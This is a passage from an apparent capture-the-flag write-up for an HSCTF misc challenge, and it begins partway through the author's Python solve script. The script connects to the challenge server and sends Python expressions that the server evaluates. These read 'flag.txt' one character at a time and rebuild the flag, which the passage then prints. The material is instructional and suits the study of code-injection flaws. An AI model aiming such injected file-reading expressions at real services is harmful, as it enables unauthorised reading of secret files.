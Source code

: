 ``` python
            sent = True
 
    #Waiting for the result to be calculated
    while "Sorry" not in data:
        data = s.recv(1024)
 
    #returning the result of the calculation
    return int(data[-4:-1])
 
if __name__ == "__main__":
 
    HOST = "misc.hsctf.com"
    PORT = 7001
 
    flag = ""
    FLAG_LEN = 0
    new_char = 0
 
    #Enstablishing connection with the server
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("misc.hsctf.com", 7001))
 
    #Finding the flag length so we can later initialize a loop
    #to get each flag characters
    if FLAG_LEN == 0:
        print("[*] Getting flag length...")
 
        #Sending the first code to get the flag length
        FLAG_LEN = send(s, "len(open('flag.txt', 'r').readline().split()[0])\n")
        print("[*] Got length: {}".format(FLAG_LEN))
 
        #Closing the server socket
        s.close()
 
    #Looping through each flag char
    for i in range(0, FLAG_LEN):
 
        #Enstablishing conneciton with the server
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("misc.hsctf.com", 7001))
 
        #Sending the second code the get the ASCII value of the char at i position
        new_char = chr(send(s, "ord(open('flag.txt', 'r').readline()[{}])\n".format(i)))
        print("[*] Got char: {}".format(new_char))
 
        #Appending char to flag's string
        flag += new_char
 
        #Closing the server socket
        s.close()
 
    print(flag)
```

Once we run it, we wait a few seconds and we would get the flag:
`flag{please_use_python3}`

(It's fun since I wrote the script using python2 lmao)
